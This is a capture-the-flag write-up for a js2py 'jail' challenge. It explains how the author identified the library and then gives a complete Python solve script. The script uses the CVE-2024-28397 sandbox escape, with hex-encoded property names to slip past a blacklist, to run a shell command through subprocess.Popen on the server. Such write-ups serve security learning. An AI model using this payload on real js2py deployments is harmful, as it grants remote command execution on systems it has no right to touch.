 ```yaml
---
created: 2024-07-27T06:35
updated: 2024-07-28T04:18
tags:
  - jail
  - js2py
solves: 29
points: 220
---
```


> This is my first calculator ever, and it might have a 0day!!!

## Analysis

### eval

```bash
curl "https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result" ^
  --data-raw '{"inputs":"9 + 9"}'
# {"result":"18","status":"success"}
```

Obviously the server is running some sort of `eval`.

After a few probes, I realized that the server is running python, and executing our code as JS. (weird)

```js
()=>{}
"SyntaxError: Line 1: ArrowFunction is not supported by ECMA 5.1"
```

### `js2py`

A bit of researching later I realized that the server is using `js2py`.

After which I found a CVE for `js2py`, and the [poc script](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py).

I used hex encoded code ran inside of `eval()` block to avoid blacklist.

It worked, but turns out that was unintended when the author DM-ed me, he did not saw `eval` coming.

So I modified the solve script a little to work even after he patched eval.

Just use hex encoded indexers, lol.

Credits to [Marven11/CVE-2024-28397-js2py-Sandbox-Escape: CVE-2024-28397: js2py sandbox escape, bypass pyimport restriction. (github.com)](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

## Solve Script

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


# https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py
payload = """
let cmd = "cat ../flag.txt"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()) {
        let item = o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()[i]
        if(item.__module__ == "\\x73\\x75\\x62\\x70\\x72\\x6F\\x63\\x65\\x73\\x73" && item.__name__ == "\\x50\\x6F\\x70\\x65\\x6E") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
n11
"""
r = requests.post("https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result", json={"inputs": payload})
print(r.text)
```

```flag
DEAD{Js_2_Py_3sc4p3_wr3ck3d_my_b0x}
```
